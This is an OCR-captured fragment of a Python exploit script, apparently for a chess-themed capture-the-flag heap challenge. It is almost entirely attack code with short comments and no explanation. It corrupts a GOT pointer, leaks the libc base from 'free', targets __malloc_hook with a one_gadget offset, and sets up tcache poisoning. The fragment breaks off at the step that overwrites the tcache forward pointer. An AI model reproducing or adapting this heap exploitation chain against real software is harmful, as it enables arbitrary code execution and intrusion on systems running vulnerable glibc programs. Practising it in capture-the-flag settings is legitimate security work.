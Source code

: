 ```python

    move_y(2, 7, 19, 7) #rook -> (19, 7)
    move(2, 6, 7, 7, 5) #knight -> (7, 5)
    move(2, 6, 6, 6, 5) #pawn -> (6, 5)
    move(2, 5, 7, 6, 6) #bishop -> (6, 6)

    #Move king
    move(2, 4, 6, 4, 5)
    move(2, 3, 7, 4, 6) 
    move(2, 4, 6, 5, 7)

    move_y(2, 5, 18, 7) #king -> (18, 7)

    #Pawn clear
    move(2, 5, 6, 5, 5)
    move(2, 3, 6, 3, 5)
    move(2, 2, 6, 2, 5)
    move(2, 1, 6, 1, 5)
    move(2, 0, 6, 0, 5)

    #Move rook
    move(2, 0, 7, 0, 6)
    move(2, 0, 6, 5, 6)
    move(2, 5, 6, 5, 7)
    move_y(2, 5, 17, 7) #rook -> (17, 7)


    #Overwrite pointer to GOT
    while mov_count < 0x3f:
        move_bishop(2)
    smite(2, 18, 7)
    
    move_bishop(2)
    smite(2, 19, 7)
    while mov_count < 0x98:
        move_bishop(2)
    smite(2, 17, 7)

    view(3)
    rl()
    rl()
    libc.address = uu64(rl()[2:].replace("\n","")) - libc.symbols['free']
    log.info("Libc -> "+hex(libc.address))
    malloc_hook = libc.symbols["__malloc_hook"]
    gadget = libc.address + [0xe6c7e, 0xe6c81, 0xe6c84][1]

    add(0)
    add(1)
    move_y(3, 7, 9, 7)
    while mov_count < 0xa1:
        move_bishop(2)
    smite(3, 9, 7)

    free(1)
    free(0)
    free(4)

    for i in range(6):
        move_x(0, i, 6, 0)

    #Overwrite tcache fd to malloc_hook
    vals = getvals(malloc_hook)

```